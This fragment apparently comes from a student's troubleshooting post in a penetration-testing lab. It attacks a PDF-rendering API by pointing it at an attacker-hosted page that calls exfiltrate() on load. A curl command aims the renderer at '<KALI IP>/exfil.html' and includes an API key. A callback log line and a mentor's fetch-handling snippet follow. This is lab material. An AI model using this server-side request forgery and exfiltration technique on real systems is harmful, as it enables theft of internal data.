 ```
}
</script>
</head>
<body onload='exfiltrate()'>
<div></div>
</body>
</html>


I am calling this:
curl "http://apigateway:8000/render?url=http://<KALI IP>/exfil.html&apikey=SBzrCb94o9JOWALBvDAZLnHo3s90smjC" --output l.pdf

I am getting this in log:

"GET /callback?null HTTP/1.1" 404
```

Mentor suggestion:

```
.then((data) => {
        document.getElementById("data").innerText = data
    }).catch(err => {
        document.getElementById("data").innerText = err
    });
```
